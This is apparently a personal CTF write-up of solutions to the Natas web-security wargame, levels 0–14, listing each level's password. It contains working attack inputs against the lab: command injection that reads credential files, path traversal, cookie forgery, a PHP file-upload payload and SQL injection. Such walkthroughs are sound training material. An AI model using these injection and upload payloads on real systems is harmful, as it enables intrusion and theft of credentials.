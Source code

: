 # Natas
This repository holds my solutions to the wargame natas.

## Level 0
Looking in the source we can see the comment:
```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
Password: gtVrDuiDfck831PqWsLEZy5gyDz1clto

## Level 1
We can use the shortcut 'CTRL+U' to access the source and find the comment:
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```
Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2
Looking in the source we see that a picture called pixels is stored in the directory files. Going to http://natas2.natas.labs.overthewire.org/files/ we can see the file users.txt which holds the password.

Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## Level 3
Looking in the source we can see the comment: `<!-- No more information leaks!! Not even Google will find it this time... -->`. The only way google won't find it is if it's path was stored in the robots.txt file. Visiting it, then going to http://natas3.natas.labs.overthewire.org/s3cr3t/ results in the password.

Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4
We can use a curl command to change the http referer. Running `curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php` results in the password.

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5
Changing the cookie loggedin from 0 to 1 results in the password.

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6
Looking at the php in the source after clicking the view source button we can see that the secret is stored in http://natas6.natas.labs.overthewire.org/includes/secret.inc. Visiting the url and submitting the secret results in the password.

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## Level 7
The site reads a file that we can control the name of. Looking in the source we can see that the password is stored in `/etc/natas_webpass/natas8`. Going to the url `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` results in the password.

Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## Level 8
The secret has been base64 encoded, reversed, then encoded in hex. We can use the following line of python to decode it `import base64; base64.b64decode(bytearray.fromhex("3d3d516343746d4d6d6c315669563362").decode()[::-1])` and get the secret `oubWYf2kBq`. Submitting the secret we get the password.

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## Level 9
We can inject a linux command using `; COMMAND HERE ;`. Inputting `; cat /etc/natas_webpass/natas10;` results in the password.

Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## Level 10
We can use the regular expression `.*` to match anything. If we use it then add the name of the file containing the password, then comment the rest of the expression we get the password. We can use this command to do that: `.* /etc/natas_webpass/natas11 #`

Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## Level 11
The first thing we have to do is create a script that XORs two strings.
```
def xor(str1, str2):
	assert(len(str1)==len(str2))
	return ''.join([chr(ord(str1[i])^ord(str2[i])) for i in range(len(str1))])
```
The json encoded data should look like this: `{"showpassword":"no","bgcolor":"#ffffff"}`. Due to the easy reversibility of XOR we can find the key by XORing the string above and the cookie. Running: `xor(base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=").decode(), "{\"showpassword\":\"no\",\"bgcolor\":\"#ffffff\"}")` gives us the key, `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`. 

Now we can XOR the json data we need to solve the challenge, `{"showpassword":"yes","bgcolor":"#ffffff"}`, with the key to get the cookie needed to get the password. We have to extend the key to make it equal in size to the json data.
```
>>> x = xor("qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw", "{\"showpassword\":\"yes\",\"bgcolor\":\"#ffffff\"}")
>>> base64.b64encode(bytes(x, 'utf-8'))
b'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'
```
Changing the cookie data to `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK` results in the password.

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## Level 12
Thank you, https://www.abatchy.com/2016/11/natas-level-12 on this problem for so long. (Note: this is the only hint I've yet to use)

The key insight is to realize that the file you inject can be run by the server. Looking at the code we see that the file type of the injected file is stored in the variable filename. Changing this from a .jpg to a .php allows us to inject php code. We can inject the following code to read the password stored in natas13:
```
<?php
$file = file_get_contents("/etc/natas_webpass/natas13");
echo $file;
?>
```
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## Level 13
This is the same problem as before except now we have to pass an extra if statement that checks if our file is an image. It checks this using the function exif_imagetype. A quick trip to the [documentation](https://www.php.net/manual/en/function.exif-imagetype.php) tells us that this is done by checking the file signature. This means we can easily bypass the check by modifing the file signature in a hex editor. Changing the first four bytes to FF D8 FF DB, shifting our code four bytes, and changing the code above to read from the file natas14 results in the password. All we have to do after our modifications to the file is change the variable filename from a .jpg to a .php file and submit.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## Level 14
This is a simple SQL injection problem. We see that the site takes our input and places it in a SQL query. It then checks if more than one row is returned by the query. Simply typing `" or 1=1--` allows us to bypass the login screen by returning more than one row.

Password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
